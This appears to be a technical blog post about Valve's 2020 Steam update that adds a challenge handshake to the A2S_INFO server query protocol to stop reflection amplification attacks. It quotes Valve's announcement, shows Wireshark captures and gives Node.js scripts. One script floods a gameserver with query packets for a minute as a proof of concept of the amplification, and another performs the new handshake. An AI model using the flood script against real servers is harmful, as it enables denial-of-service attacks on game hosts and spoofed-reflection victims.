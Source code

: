 ```yaml
---
title: Changes to server browser packets in latest Steam client 
date: '2020-12-10'
spoiler: Security related update, currently in test phase.
---
```


Since of 08.12.2020 developer from Valve presented an update regarding reflection amplification attack vulnerability presented in all Steam games which support game server queries.

This type of attack is > 5 years old.


Note from developer:
```
Hello!

The Steam client released today includes changes to the client intended to address a gameserver reflection attack vulnerability in the server browser protocol. It also includes several experimental features that can be enabled on gameservers to further harden the server against attack.

When a client queries a server, it will begin by sending an A2S_INFO packet, formatted exactly as before. If the server desires (see below for how to opt in), the server may reply with a S2C_CHALLENGE challenge request, instead of replying with the S2A_INFO_SRC data packet. The new client understands this reply, and can resubmit the A2S_INFO request, authenticated with the server's challenge, thus proving that it is not spoofing the source IP address.

The binaries released with the client today also include changes relevant to how the gameserver handles these packets. First, challenge generation was hardened against attacks designed to fill the challenge table and crowd out legitimate challenge requests.
Additional experimental improvements are available by setting environment variables, but are not enabled by default:

STEAM_GAMESERVER_A2S_INFO_REQUIRE_CHALLENGE=1. This will opt into the new handshake for A2S_INFO packets to address the reflection attack. At this time, it is primarily intended for testing 3rd party query clients. Since not all players may have an updated Steam client and understand this handshake, it is not recommend to enable this at this time, except for testing. We will post again when the vast majority of users are running clients that understand the new protocol, and enabling the new protocol is safe.

STEAM_GAMESERVER_RATE_LIMIT_200MS=N. This will drop any connectionless packets (A2S_INFO, A2S_RULES, A2S_PLAYERS) from a given IP after more than N are received in a 200ms window. By default, rate limiting is disabled, but a reasonable value might be somewhere around 25-75.

STEAM_GAMESERVER_PACKET_HANDLER_NO_IPC. If this variable is set, then the Steamworks packet handling calls will use a “fast path”. In the Steamworks SDK, most API calls are serialized over an IPC, and in fact execute in the steam client process. A dedicated server does not communicate with a steam client (there usually isn’t one running), but the same basic design is used – there are two threads, and all API calls are serialized and executed in the Steam thread. Turning on this environment variable will bypass this serialization and thread context switch, which makes these calls, much, much faster. Note that this only affects a server in “shared socket mode” – meaning the game port and the query port are the same.

Gameserver operators can obtain binaries for all platforms, including older linux distributions, here:
http://media.steampowered.com/apps/steamworks/steam_bins_6246211.zip

These changes were previously discussed in this post: https://steamcommunity.com/discussions/forum/14/2989789048633291344/.
```

Some notes from this text:

* Valve finally works on fix of this problem,
* for now there is no breaking change in queries,
* you definitely want to check out this.

Let's test this out.

Someone in [discussion](https://steamcommunity.com/discussions/forum/14/2974028351344359625/?ctp=2#c2996547001730614240) was kind enough to provide two servers with old and new protocol.

This gameservers are running Counter-Strike: Source (v5394425 (Linux, Dedicated, Protocol 17))

Let's start [HLSW](http://www.hlsw.net/) and fire up [Wireshark](https://www.wireshark.org/) to see what packets we are sending and what server is returning.

Add server to HLSW and start to send packets.
Standard [query](https://developer.valvesoftware.com/wiki/Server_queries#Request_Format) for A2S_INFO looks like this.
Its just crafting query string (TSource Engine Query) where T (0x54) is header and rest is payload string terminated by space (0x00).

![sending crafted packet to gameserver](./query-default.png)

After successful packet sending on gameserver, server responds with S2A_INFO_SRC packet which looks like this

![Reciving S2A_INFO_SRC](./query-default-response.png)

Every byte is documented [here](https://developer.valvesoftware.com/wiki/Server_queries#Response_Format).

### How is this exploitable?

Bandwidth in computer world is expensive thing if its abused, so attacks like DDoS can harm gameserver by lagging, dropping players, resource overuse etc but it also can be fatal if combined in big ddos attack on other server by attacker spoofing ip address.

Lets craft some PoC. For this purpose I will use nodejs.

```jsx

const udp = require('dgram');

// Create udp socket
const client = udp.createSocket('udp4');

const ip = '';
const port = 0;

let sent = 0;
let received = 0;
let bytes = 0;


// TSource Engine Query
const hex = Buffer.from('ffffffff54536f7572636520456e67696e6520517565727900', 'hex')

// emits on new datagram msg
client.on('message', (msg) => {
bytes = bytes + parseInt(msg.length);
received++;
});


const statusPrint = () =>{
console.log('%s requests to gameserver. ', sent);
console.log('%s responses from gameserver with %s bytes. ', received, bytes);
}

// Run test for 1 minute
const runFor1muinuteInterval = setInterval(() =>{

    // Socket function to send Buffer object
    client.send(hex, port, ip, (error) =>{

        // Check if packet is sent?
        if(!error){

            // Increment sent status
            sent++;
        } 
    });

})

// Clear interval after 1 minute
setTimeout(()=>{clearInterval(runFor1muinuteInterval), statusPrint(); }, 60000);

```

nodejs is very slow but still manage to run 40k hits in a minute.

Note: **everything is tested on my local machine, don't use for illegal purposes**.

Now let's see how Valve provided protection.

Let's send A2S_INFO packet first and see response on the protected server.

![Receiving S2C_CHALLENGE](./challenge_response.png)

Red underline is response type (0x41) or string A.
Blue is long type challenge response.

Unfortunately, HLSW is not updated for this change (lol if this was the only thing) so to see response we need to recraft request packet to see A2S_INFO response.

```jsx
const udp = require('dgram');

// Create udp socket
const client = udp.createSocket('udp4');

const ip = '';
const port = 0;

// TSource Engine Query - normal query 
const hex = Buffer.from('ffffffff54536f7572636520456e67696e6520517565727900', 'hex')

// Socket send
client.send(hex, port, ip, (error) =>{

    // Check if a packet is sent?
    if(!error){
        console.log('Normal TSource Engine Query packet have been sent.'); 
    } 
});

// Emits on new datagram msg
client.on('message', (msg) => {

    // Get buffer value at position 4 in buffer object and check if its equal to challenge response (0x41 === 65)
    if(msg[4] === 65){

        // If yes craft new A2S_INFO packet with challenge response
        const A2S_INFO_REQUEST = Buffer.concat([Buffer.from('ffffffff', 'hex'), Buffer.from('54536f7572636520456e67696e6520517565727900', 'hex'), Buffer.from(msg.toString('hex', 5), 'hex')]);

        // Send new packet with challenge response
        client.send(A2S_INFO_REQUEST, port, ip, (error) =>{
        // Check if packet is sent?
            if(!error){
                console.log('Modified TSource Engine Query packet have been sent. Packet (hex): %s', A2S_INFO_REQUEST); 
            } 
    });
    }

    // Check if response is actually A2S_INFO response 0X49 === 73 int
    if(msg[4] === 73){
        console.log('Received A2S_INFO from gameserver.')
        console.log(msg.toString('ascii'));
    }

});

```

Wireshark recrafted request:

![Wireshark recrafted request](./wireshark_recraftedd.png)


Wireshark A2S_INFO response:

![A2S_INFO response](./wireshark_recrafted_response.png)

Console value response (ascii): 

![Console value](./console_value.png)


Normal A2S_INFO query (red) with type long challenge (blue).


Final words of advice would be to start implementing this new defending technique because it will prevent spoofed attacks with this challenge. 
Gametrackers should be prepared for servers of this kind, early adoption can bring stable queries for its community and servers. This same thing goes for client queries like HLSW and [others](https://developer.valvesoftware.com/wiki/Server_queries#Implementations).

Other methods like *STEAM_GAMESERVER_RATE_LIMIT_200MS* and 
*STEAM_GAMESERVER_PACKET_HANDLER_NO_IPC* should be covered in other blog posts.









